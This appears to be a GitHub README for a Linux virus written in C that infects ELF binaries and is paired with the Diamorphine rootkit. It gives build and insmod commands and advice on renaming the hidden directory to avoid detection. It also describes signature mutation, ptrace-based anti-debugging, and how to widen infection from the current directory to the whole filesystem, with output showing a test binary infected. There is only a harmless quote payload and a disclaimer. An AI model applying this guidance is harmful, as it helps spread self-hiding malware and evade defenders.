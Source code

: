 # Nestor_Makhno
Linux virus in C that uses mutation and rootkit functionality

Nestor Makhno is a simple Linux virus that uses a rootkit(Diamorphine) to help hide its tracks and avoid av detection. The historical Nestor Makhno was famous for a lot, but one thing was being the first to begin using machine guns on covered wagons. He didn't create machine guns or wagons, but he knew these things would work well together. His ideas are still credited as the first proto-tank and first drive-by shooting. The Diamorphine rootkit existed long before the virus code added here. Its mostly used to make the process invisible in the pids.c file. As-is, it will also be used to create a hidden directory in /dev/shm/diamorphine_secret_def_not_a_virus. To avoid detection we suggest renaming this directory in the code of simmple.c

```
$ grep mkdir virus/simple.c
   mkdir("/dev/shm/diamorphine_secret_def_not_a_virus",0775);
```

Diamorphine will hide any folder on the system who's name begins with "diamorphine_secret". So be sure to include this with any locations that should be hidden. You may also want to build and run the virus portion of Nestor_Makhno from a folder like this to avoid dectection as well. 

To use this code, first go to the Diamorphine directory, build and install it:

```
$ cd ./Diamorphine
$ make
$ sudo insmod ./diamorphine.ko
```

If you expirence errors, you most likely do not have kernel headers installed. On Debian you may install them with the following:

```
$ sudo apt search linux-headers-$(uname -r)
```

Then go to the directory for the virus and build it:

```
$ cd ../virus
$ make
```

To prevent abuse, there is no real payload used with this code. Instead only an infamous quote by the historical Nestor Makhno will be injected into binaries. After completing you will find a binary called 'Nester_Makhno' and another called 'hello' to be used for testing. The code is set here to only infect files in the same directory:

```
$ grep '^   scan' virus/simple.c
   scan_dir(".", virus);
```

The above location may be editted to '/' or any desired location if you have a vm or sandbox. It should go without sayinig, but DO NOT RELEASE THIS CODE INTO THE WILD. THIS IS FOR TESTING AND EDUCATIONAL PURPOSES ONLY. I am not responsible for any damage this may cause and depending on your location, running this code may be illegal on devices you do not own. So you have been warned. 

Running the code you will see the quote from our payload: 

```
$ cd ./virus
$ ./Nestor_Makhno
Death to all those who stand in the way of freedom for the working people!
``` 
You can silence this by outputting to /dev/null. After this, you will find the hello binary will also excute this quote:

```
$ ./hello        
Death to all those who stand in the way of freedom for the working people!
Hello!
```

This is despite this string not being found in the code of hello.c:

```
$ cat ./hello.c 
#include <stdio.h> 

int main(){ 
    printf("Hello!\n");
}
```

Using virus strategies of the past, the modify.c file in the virus directory is used to randomly obscure this code's signature in memory. Basically making this a mutation virus as well. PTRACE has been used in trace.c to help prevent debugging. Combined with the rootkit functionality, this will make detection much more difficult, but not impossible.

If you wish to make changes to this code, the following line will need to be updated:

$ grep 'define PARASITE_LENGTH' simple.c<br>
#define PARASITE_LENGTH 14800 /* PARASITE_LENGTH the size of compiling virus */

This will need to match the number of bytes in the compiled binary:

$ ls -l Nestor_Makhno<br>
-rwxr-xr-x 1 user user 14800 Mar  9 02:19 Nestor_Makhno

Otherwise functionality of the virus might cease to work correctly.

Information on the historical Nestor Makhno may be found here:

https://en.wikipedia.org/wiki/Nestor_Makhno

Information on the Diamorphine may be found here:

https://github.com/bms8197/diamorphine 
